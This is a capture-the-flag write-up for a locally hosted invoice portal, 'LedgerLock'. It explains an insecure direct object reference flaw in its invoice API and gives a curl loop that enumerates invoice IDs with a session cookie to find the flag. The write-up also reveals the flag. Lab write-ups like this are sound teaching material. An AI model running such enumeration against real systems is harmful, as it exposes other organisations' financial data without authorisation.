



**Challenge Name:** Not So Secure Invoicing

**Challenge Description:** Our finance team just rolled out a brand new internal billing portal called LedgerLock. It’s fully authenticated, so there’s no way you could see another company’s financial data… right?\
\
` `Flag Format: MetaCTF{1d0r\_bR3Aks\_tRUs7\_n0T\_4uTh}\
` `Difficulty: Easy – 150 Points

**How I ran it**

From the project folder:\
\
**sudo docker compose up --build**\
\
Then open:\
` `**http://localhost:3000**\

Register a new account and start exploring the invoice system.

**Writeup**

LedgerLock is a small invoice management portal where users can register, log in, and view invoices belonging to their company. The UI appears to enforce tenant isolation correctly, but the backend API does not.

**Understanding the App**

After registering and logging in, the dashboard shows a list of invoices that belong only to your company. Each invoice links to a detail page.\
\
` `When viewing an invoice, the frontend makes a request like:\
` `GET /api/invoices?invoice\_id=1032\
\
` `The response contains full invoice details in JSON, including company name, amount, description, and notes.\
\
` `The application checks whether the user is authenticated, but does not verify that the requested invoice belongs to the user’s company.

**The Key Weakness: Insecure Direct Object Reference (IDOR)**

The invoice API uses a direct database lookup by ID without any authorization check tying the invoice to the user’s company. This means any logged-in user can access invoices from other companies simply by changing the invoice\_id parameter.

**Exploitation**

While logged in, we can manually change the invoice ID in the request:\
` `GET /api/invoices?invoice\_id=1001\
` `GET /api/invoices?invoice\_id=1002\
` `GET /api/invoices?invoice\_id=1046\
\
` `Eventually, we encounter an invoice belonging to another company with a suspicious note field.

**Finding the Flag**

By enumerating invoice IDs, we discover:\
` `/api/invoices?invoice\_id=1046\
\
` `The response includes the flag inside the notes field.

You can also run this command if you grab you session cookie:

SESSION='session=PASTE\_YOUR\_COOKIE\_HERE'

for id in $(seq 1000 1200); do

`  `curl -s -H "Cookie: $SESSION" \

`    `"http://localhost:3000/api/invoices?invoice\_id=$id" \

`  `| grep -oE 'MetaCTF\{[^}]+\}' && echo "Found in invoice $id" && break

done
